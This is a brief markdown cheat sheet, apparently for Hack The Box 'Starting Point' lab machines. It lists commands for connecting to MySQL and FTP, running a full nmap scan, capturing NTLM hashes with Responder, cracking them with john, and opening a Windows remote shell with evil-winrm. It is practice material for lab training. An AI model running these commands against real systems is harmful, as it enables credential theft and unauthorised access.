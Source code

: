 # Starting Point


## Tier 0


## Tier 1

### Sequel
* mysql -h IPADDRESS -u USERNAME

### Crocodile
* ftp IPADDRESS
  
### Responder
* nmap -Pn -p- --min-rate 1000 -sV 10.129.128.223 - nmap scan.
* sudo python3 Responder.py -I NETWORKINTERFACE - Starts a listern that captures the challenge of NTLM authentication.
* john -w=WORDLIST HASHFILE - Dehash and try to find the password.
* evil-winrm -i IPADDRESS -u USERNAME -p PASSWORD - Connects a shell to a windows computer using WINRM service.

## Tier 2
